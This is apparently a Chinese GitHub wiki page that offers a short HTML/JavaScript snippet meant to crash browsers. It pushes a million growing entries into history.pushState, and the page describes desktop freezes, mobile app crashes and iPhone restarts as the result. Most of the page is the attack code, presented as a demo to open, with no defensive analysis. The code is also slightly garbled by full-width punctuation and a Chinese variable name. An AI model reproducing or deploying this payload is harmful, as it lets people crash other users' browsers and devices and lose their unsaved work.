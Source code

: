 1. * <HTML>
1. <BODY>
1. <SCRIPT>
1. var total =“”;
1. for（var i = 0; i <1000000; i ++）{
1.    total = total + i.toString（）;
1.    history.pushState（0,0，总计）;
1. }
1. </ SCRIPT>
1. </ BODY>
1. </ HTML>
1. 演示:(温馨提示：请保存浏览器其它窗口的编辑任务）

1. 接来下会发生什么？
1. 点开以后，是这样的：

1. 如果你是PC端用户，点开链接以后，电脑CPU内存极有可能一路狂飙直至浏览器崩溃卡死！
1. 如果你是移动端（安卓，iPhone）用户，点开链接以后你的浏览器会闪退！在微博，微信客户端点开链接同样会闪退.iPhone用Safari打开之后链接之后，手机注销重启了！...

本文地址:https://github.com/gugejun/luan/wiki

